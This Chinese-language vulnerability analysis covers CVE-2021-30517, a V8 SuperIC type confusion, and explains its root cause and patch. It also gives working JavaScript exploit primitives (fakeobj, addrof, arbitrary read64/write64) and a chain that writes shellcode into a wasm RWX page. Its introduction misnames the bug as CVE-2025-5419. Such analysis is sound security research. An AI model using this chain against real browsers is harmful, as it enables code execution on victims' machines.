







CVE-2021-30517 分析¶
本文分析了 CVE-2025-5419 的根因及其稳定利用方法。该漏洞属于 V8 类型混淆漏洞，感谢 @bjrjk 设计并提供了精巧的利用手段。
基本信息¶
| 项目 | 内容 |
|---|---|
| 漏洞编号 | CVE-2021-30517 |
| 官方描述 | Type confusion in V8 |
| 漏洞类型 | SuperIC 中 receiver / lookup_start_object 混淆 |
| Chromium Issue | 1203122 |
| 官方修复提交 | 387c803020c331ea4203c85b3bb6d9d714457375 |
| 修复版本 | Chrome 90.0.4430.212 |
| 复现命令 | ./d8 --allow-natives-syntax poc.js |
漏洞概览¶
这个漏洞的问题不在于原型链“少查了一层”，而在于 super.prop 进入 SuperIC 快路径之后，混淆了 receiver 和 lookup_start_object。super 访问里，receiver 表示当前调用时真正的 this，lookup_start_object 表示原型链查找的起点。两者只要被混在一起，后面的专用 handler 就会拿错误的对象布局去解释固定偏移，最终形成类型混淆。
前置知识¶
super 访问里一直同时存在两个对象¶
可以先看一个简单的例子：
这里的 super.x 不是从 this 开始查找。实际过程可以概括成：先拿到 receiver = this，再拿到 lookup_start_object = Derived.prototype.__proto__，随后从 lookup_start_object 开始查找属性，最后再把结果按 receiver 的语义返回。如果命中 getter，那么 getter 里的 this 仍然是 receiver。
所以在 super 这个语境里，receiver 和 lookup_start_object 从定义上就是两种不同的对象。前者回答“谁在调用”，后者回答“从哪里开始查”。后面分析 PoC 和 patch 时，只要一直把这两个对象区分开，整条漏洞链路就更容易理清。
super 的读和写不能对称理解¶
这一点会直接影响后面的利用方式。
读取时，关键是从 lookup_start_object 开始查找。
写入时，查找过程仍然和原型链有关，但最终真正发生写入的位置仍然是 receiver。也就是说，读路径里的“查找起点”和写路径里的“最终落点”不是一回事。后面 super.prototype = obj 为什么不能直接翻成 addrof，原因就在这一点。
SuperIC 和专用 handler¶
V8 会把热点属性访问缓存起来。第一次访问时走慢路径，查清楚之后，把这次访问的形态记到 feedback 里；后面同一个访问点再看到相同形态的对象，就可以直接走快路径。super.prop 因为语义特殊，有一套单独的路径，也就是 LoadSuperIC。
LoadSuperIC 和普通 LoadIC 最大的区别，是它必须把 receiver 和 lookup_start_object 一起带下去。后面一旦命中某个 handler，差异主要就出在这里。对 Function.prototype、String.length、StringWrapper.length 这种高频场景，V8 不再走通用属性查找，而是直接用专门的 Code handler 调一个 builtin stub，按固定偏移读对象字段。
这类优化只要喂错对象，后果也会很明显：不再是“查出来的属性不太对”，而是“把错误偏移上的数据当成另一种类型解释”。30517 本质上就是一条专用读取路径的错参问题。
PoC 分析¶
PoC¶
function main() {
class C {
m() {
super.prototype;
}
}
function f() {}
C.prototype.__proto__ = f;
let c = new C();
c.x0 = 1;
c.x1 = 1;
c.x2 = 1;
c.x3 = 1;
c.x4 = 0x42424242 / 2;
f.prototype;
c.m();
}
for (let i = 0; i < 0x100; ++i) {
main();
}
这段代码里需要关注的信息主要分散在四个地方：
C.prototype.__proto__ = fc.x0到c.x4f.prototype- 外层循环
它们分别负责改写查找起点、布置 receiver 布局、预热访问以及把访问点推进到 fast path。
C.prototype.__proto__ = f 改变的是 lookup_start_object¶
当 c.m() 执行时：
receiver是实例对象chome object是C.prototypelookup_start_object是C.prototype.__proto__
这里手动写了：
于是这条 super.prototype 在语义上就变成了“从函数对象 f 开始查找 prototype”。这一步很关键，因为它把访问点引到了 Function.prototype 的专用优化路径。
PoC 的第一步不是“乱改原型链制造越界”，而是先把一条 super 访问伪装成“很像对函数对象读取 .prototype”的形状。
c.x0 ~ x4 在布置 receiver 的 +0x1c¶
这几行是在刻意布置 receiver 的对象布局。一个拥有足够多 inline property 的普通 JSObject，大致可以理解成：
这里需要关注的不是 0x42424242 / 2 这个值本身，而是 receiver 在 +0x1c 这个偏移上被布置出了一个可控槽位。后面一旦 Function.prototype 的专用 handler 错把 c 当成函数对象，这个槽位就会直接进入 handler 的视野。
f.prototype 和外层循环都在服务 fast path¶
这一行主要是在做预热。它有助于让 prototype 这类热点访问更早进入稳定的优化状态，避免 c.m() 第一次执行时还停留在完全没有 feedback 的慢路径。
外层循环的作用更明确：
它把 LoadSuperIC 从 NoFeedback 慢慢推向单态快路径。30517 的问题出在命中专用 handler 之后的 fast path。如果访问点不够热，PoC 就走不到出 bug 的那一层。
最终的错位发生在 +0x1c¶

图左边是 handler 以为自己拿到的 JSFunction，图右边是真实传进去的 JSObject。对 JSFunction 来说，+0x1c 附近是 prototype / initial map 相关槽位；对实例对象 c 来说，+0x1c 只是 x4。
所以 PoC 的核心可以概括成一句话：
语义上这次访问应该按
lookup_start_object = f的布局解释，真正执行时却按receiver = c的地址去读同一个固定偏移。
于是原本应该“读取函数原型”的专用 handler，最后把普通对象的 inline property 当成了 JSReceiver 结果返回。类型混淆就是在这里形成的。
结合 patch 分析¶
官方 commit 标题是：
从 diff 可以看到，它同时修了两层问题：
- 命中
Codehandler 之后，真正调用 stub 时传错了对象 - 选择是否安装专用 handler 时，本来就用了错误的对象做判断
LoadSuperIC 的骨架其实一直知道这两个对象不同¶
把和这次分析最相关的部分压出来，大致是这样：
GotoIf(IsUndefined(p->vector()), &no_feedback);
TNode<Map> lookup_start_object_map =
LoadReceiverMap(p->lookup_start_object());
GotoIf(IsDeprecatedMap(lookup_start_object_map), &miss);
TNode<MaybeObject> feedback =
TryMonomorphicCase(p->slot(), CAST(p->vector()), lookup_start_object_map,
&if_handler, &var_handler, &try_polymorphic);
这里只看三行就够了。单态匹配用的是 lookup_start_object_map，不是 receiver 的 map。也就是说，SuperIC 在整体设计上本来就知道：super 访问的查找形态应该围绕 lookup_start_object 来决定。
再看 miss 的时候：
direct_exit.ReturnCallRuntime(Runtime::kLoadWithReceiverIC_Miss, p->context(),
p->receiver(), p->lookup_start_object(),
p->name(), p->slot(), p->vector());
这里 receiver 和 lookup_start_object 是一起传下去的。这说明 slow path / runtime path 并没有把两者揉成一个对象。换句话说，30517 不是“V8 整体不理解 super 语义”，而是 fast path 里最后一段专用路径把事情做坏了。
bug 点在 call_handler¶
HandleLoadICHandlerCase 这段逻辑如下：
Label if_smi_handler(this, {&var_holder, &var_smi_handler});
Label try_proto_handler(this, Label::kDeferred),
call_handler(this, Label::kDeferred);
Branch(TaggedIsSmi(handler), &if_smi_handler, &try_proto_handler);
BIND(&try_proto_handler);
{
GotoIf(IsCodeMap(LoadMap(CAST(handler))), &call_handler);
HandleLoadICProtoHandler(...);
}
BIND(&call_handler);
{
exit_point->ReturnCallStub(LoadWithVectorDescriptor{}, CAST(handler),
p->context(), p->receiver(), p->name(),
p->slot(), p->vector());
}
这里的分界线非常清楚：如果命中的 handler 是 Code，那就不再走 proto handler，也不再走别的通用逻辑，而是直接跳到 call_handler，把参数喂给专用 stub。
patch 改掉的正是这里：

关键修改是：
这也是整个漏洞的核心修复点。LoadIC_FunctionPrototype、LoadIC_StringLength、LoadIC_StringWrapperLength 这类 stub 都是假定“输入对象的布局已经对了”。它们不会重新理解一遍 super 语义，也不会再判断“当前拿到的是 receiver 还是 lookup_start_object”。所以这里只要参数传错，后面就只剩下“按错误布局读固定偏移”这一种结果。
handler 选择条件为什么也要改¶
另一处关键改动在 src/ic/ic.cc，diff 中最重要的是这些判断：
- if (receiver->IsString() && *lookup->name() == roots.length_string()) {
+ if (lookup_start_object->IsString() &&
+ *lookup->name() == roots.length_string()) {
- if (receiver->IsStringWrapper() &&
+ if (lookup_start_object->IsStringWrapper() &&
*lookup->name() == roots.length_string()) {
- if (receiver->IsJSFunction() &&
+ if (lookup_start_object->IsJSFunction() &&
*lookup->name() == roots.prototype_string()) {
这里修的是“到底该不该给这次访问安装专用 handler”。旧逻辑在这一步就已经偏了，因为它用 receiver 的类型来决定要不要装 StringLength、StringWrapperLength、FunctionPrototype 这些专用读取；但 super 访问真正语义相关的对象其实是 lookup_start_object。
这一步改成 lookup_start_object 之后，含义就很清楚了：凡是和 super 的查找语义有关的专用优化，都应该围绕查找起点来决定，而不是围绕 this 来决定。
为什么问题集中在 fast path¶
从源码结构上看：
no_feedback仍然是慢路径miss会回 runtimeLoadIC_Noninlined走的是更通用的 IC stub
这些路径里，receiver 和 lookup_start_object 的区分都还在。把两者压成同一个输入对象的，是命中 Code handler 后的 call_handler。所以 30517 不是一条普适性的 super 语义错误，而是一条专用 fast path 错误。
这也解释了 PoC 为什么必须训练进入优化：不热就进不了那条危险路径，也就看不到稳定的类型混淆。
根因总结¶
把上面这些信息压成一句完整的话，30517 的根因就是：
LoadSuperIC在整体设计上知道receiver和lookup_start_object不是一回事，但漏洞版本在专用 handler 的安装条件和调用参数上没有把这种区分坚持到底，最终让只适用于lookup_start_object布局的固定偏移读取，运行在了receiver的真实地址上。
原语构造¶
fakeobj_limited¶
PoC 已经说明 Function.prototype 那条读取会把 +0x1c 读歪。下一步可以先做一个受限版本的 fakeobj_limited：把可控值直接塞进 x4，再让错位读取把它当成对象返回。
function fakeobj(addr) {
function trigger(addr) {
class C {
m() {
return super.prototype;
}
}
function f() {}
C.prototype.__proto__ = f;
let c = new C();
c.x0 = 1;
c.x1 = 1;
c.x2 = 1;
c.x3 = 1;
c.x4 = addr / 2;
f.prototype;
return c.m();
}
let obj;
for (let i = 0; i < 4150; ++i) obj = trigger(addr);
return obj;
}
这个版本已经能证明 super.prototype 这条链能继续往 fakeobj 走，但局限也很明显：可控数据还只是普通 inline property，能承载的位模式有限，也不够灵活。这个版本主要用于验证方向。
fakeobj¶
更稳定的版本会把 receiver 换成 BigInt：
function fakeobj(addr) {
class C {
m() {
return super.prototype;
}
}
function trigger(addr) {
function f() {}
C.prototype.__proto__ = f;
let bigint = BigInt(
BigInt(addr) *
0x1_00000000_00000000_00000000_00000000_00000000n
);
f.prototype;
return C.prototype.m.call(bigint);
}
let obj;
for (let i = 0; i < 1000; ++i) obj = trigger(addr);
return obj;
}
这一步的核心不是 “BigInt 很特别”，而是它内部有一段更适合放原始整数位模式的数据区。把目标地址整体左移之后，某个 64 bit 片段的起点就能稳定落到 +0x1c 这个错位偏移上。于是 Function.prototype 那条错读路径不再只是“把 x4 当对象”，而是能把更一般的地址片段解释成对象。

这也是为什么 x4 版本只是过渡，而 BigInt 版本才适合作为后面原语构造的基础。
super.prototype = obj 为什么不能直接得到 addrof¶
把 fakeobj 反过来写成：
并不能直接得到 addrof。原因前面已经提过：super 的读写不对称。super.prototype 读取时，关键对象是 lookup_start_object；但 super.prototype = obj 真正发生写入时，最终落点仍然是 receiver。所以读路径里的“错位解释”不会自动翻成一个对称的写路径。
这条路径的实际结果会直接落到异常上：
这一步把方向限定得很清楚：这个洞的利用要顺着专用读取 handler 往下做，而不是把 super 看成某种对称的读写入口。
addrof¶
addrof 的稳定版本来自 patch 同时修掉的另一条 handler，也就是 StringWrapper.length：
function addrof(obj) {
class C {
m() {
return super.length;
}
}
function trigger() {
let f = new String("Nothing Important");
C.prototype.__proto__ = f;
let c = new C();
c.x0 = new Proxy(obj, {});
f.length;
return c.m();
}
let addr;
for (let i = 0; i < 1000; ++i) addr = trigger();
return addr;
}
这条链的关键不在 Proxy 的语义，而在布局。handler 以为自己在做：
真实上，这条错位路径落到的是：
也就是说，handler 眼里是一条两跳访存路径，真实对象上也刚好存在一条两跳访存路径，只是第二跳落到的字段换成了对象指针。这也是为什么这里选 Proxy(obj,{})，而不是随便塞一个普通对象：Proxy 内部正好提供了一个稳定的 target 指针，便于把对象地址通过固定偏移带出来。

于是本来应该返回的 int32 length，实际就开始夹带对象指针信息了。
addrof_elements¶
再往下走一步，方法并没有变，只是把 x0 里放的内容从 Proxy(obj,{}) 换成数组本身：
function addrof_elements(arr) {
class C {
m() {
return super.length;
}
}
function trigger() {
let f = new String("Nothing Important");
C.prototype.__proto__ = f;
let c = new C();
c.x0 = arr;
f.length;
return c.m();
}
let addr;
for (let i = 0; i < 1000; ++i) addr = trigger();
return addr;
}
这样最后泄漏出来的就不再是“对象地址”，而是数组的 elements 指针：

这一步的重要性比单纯对象地址泄漏更高。后面如果要伪造 fake JSArray，最需要的不是“某个对象在堆上的地址”，而是一块可控、连续、稳定、能被解释成数组头的 backing store。double array 的 elements 区域正好满足这个条件。
到这里，基础原语已经具备：fakeobj 负责把地址解释成对象，addrof 负责拿对象地址，addrof_elements 负责把可控 backing store 的地址也拿出来。
任意地址读写构造¶
fake array 放在真实 double array 的 backing store 里¶
有了 addrof_elements 之后，先准备一个真实 double array 作为承载容器，再泄漏它的 elements 地址，然后直接在这块 backing store 里摆 fake JSArray 头。最小的一组字段通常至少包括：
- fake
map - fake
properties - fake
elements - fake
length
对应的代码片段可以压成下面这样：
let JSArray_PACKED_DOUBLE_ELEMENTS_first_QWORD =
Number.prototype.c2f(0x0804222d, 0x082439f1);
function get_JSArray_second_QWORD(addr) {
return Number.prototype.c2f(0x70000000,
((addr ^ 1) & addr) - 0x8 + 1);
}
let fakeobj_container_wrapper = [1.1, 2.2, 3.3, 4.4];
let fakeobj_container_addr = addrof_elements(fakeobj_container_wrapper);
fakeobj_container_wrapper[0] = JSArray_PACKED_DOUBLE_ELEMENTS_first_QWORD;
fakeobj_container_wrapper[1] = get_JSArray_second_QWORD(0x0804000d);
let fakearr = fakeobj(fakeobj_container_addr + 0x8);
之所以把 fake header 放在真实 double array 的 elements 里，而不是随便找一块对象内存，是因为这块内存最容易从 JS 层按 64 bit 稳定改写，而且 GC 语义也更可控。等这些字段摆好之后，再用 fakeobj 去解释 fakeobj_container_addr + 0x8，一段原本只是 double elements 的原始内存就被翻译成了 JS 层可操作的 fake array。
addrof_elements 为什么是后半段的关键前置¶
只拿到对象地址，还不够继续往后放大。后面的利用需要一块既能精确写数据、又能被解释成对象头的连续内存；这正是 elements backing store 的价值所在。addrof_elements 的意义不是“多泄漏了一个地址”，而是把前面的类型混淆原语，转成了一块真正能承载 fake object header 的工作区。
这一步之后，后续所有伪造 JSArray 头、安排 length 和 elements 字段、再把 fake array 作为 OOB 窗口使用的操作，才真正有了落点。
从 fake array 到 cage 读写¶

整个思路可以拆成两段。
第一段是先做出一个受限的读写窗口。fake array 的 elements 被布到可控堆地址之后，就可以把它当成一个 OOB 视角去看同一个 4GB cage 里的其它对象。一个直接用途，是先把 BigUint64Array 对象本身扫出来，并算出它内部关键字段相对 fake array 起点的偏移。
第二段是把 fake array 变成一个“改指针的工具”。这里采用的版本没有直接硬改 fake array 自己的 elements，而是先把 fake array 当成 cage 内的读写窗口，随后用它去改 BigUint64Array 的对象字段。这样做会更稳一些，不容易因为胡乱改 elements 而被 GC 或对象一致性检查绊住。
为什么最后选 BigUint64Array¶
BigUint64Array 是一个比较合适的放大目标，原因有三点：
- JS 层能稳定读写
BigInt - 每次天然就是 64 bit
- 它本身是“对象头 + 外部数据指针”的结构，只要改掉关键指针，后面的正常读写就会自动重定向
原始脚本里，对象内部关键字段的定位是这样算出来的：
let biguint64_addr, biguint64_base_addr, biguint64_external_addr;
function update_biguint64_addr() {
biguint64_addr = addrof(biguint64) - 1;
biguint64_base_addr = biguint64_addr + 0x30;
biguint64_external_addr = biguint64_addr + 0x28;
}
一旦 fake array 已经能覆盖这两个字段，后面普通的 typed array 读写就会自动转成指定地址的读写。整个收束过程就是：
function set_biguint64_base(address) {
cage_write64(biguint64_base_addr, 0n);
cage_write64(biguint64_external_addr, address);
}
function read64(address) {
set_biguint64_base(address);
return biguint64[0];
}
function write64(address, value) {
set_biguint64_base(address);
biguint64[0] = value;
}
到这里，前面一长串对象重叠、fake array 和 OOB 窗口，最后都收束成了两个可直接使用的接口：read64 和 write64。
wasm rwx 如何接上¶
后面的落地链就比较常见了。先创建 WebAssembly.Module 和 WebAssembly.Instance，再泄漏实例地址，然后从实例内部取出 RWX 页地址，最后把 shellcode 通过 BigUint64Array 写进去。

对应脚本里的关键部分是：
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;
let wasm_instance_address = addrof(wasm_instance);
let rwx = cage_read64(wasm_instance_address - 1 + 0x68);
再往后就是把 shellcode 组装成 BigInt 数组，写进刚拿到的 RWX 区，然后调用导出函数触发执行。
到这里，整条链就完整了：
SuperIC confusion
-> fakeobj / addrof / addrof_elements
-> fake JSArray
-> cage 内部读写
-> 覆盖 BigUint64Array 外部指针
-> read64 / write64
-> wasm rwx
总结¶
CVE-2021-30517 的关键点，在于它把 super 语义里最容易混淆的两个对象角色集中暴露了出来。正常情况下，receiver 负责“谁在调用”，lookup_start_object 负责“从哪里开始查”；漏洞版本的问题不是 V8 完全不理解这件事，而是在专用 fast path 上没有把这种区分坚持到底。
一旦进入 call_handler，错误的对象就会被喂给只认固定布局的专用 stub，类型混淆也就在这里发生。后面的 fakeobj、addrof、addrof_elements 看起来像三条不同原语，实际上都只是同一个根因在不同对象布局上的展开。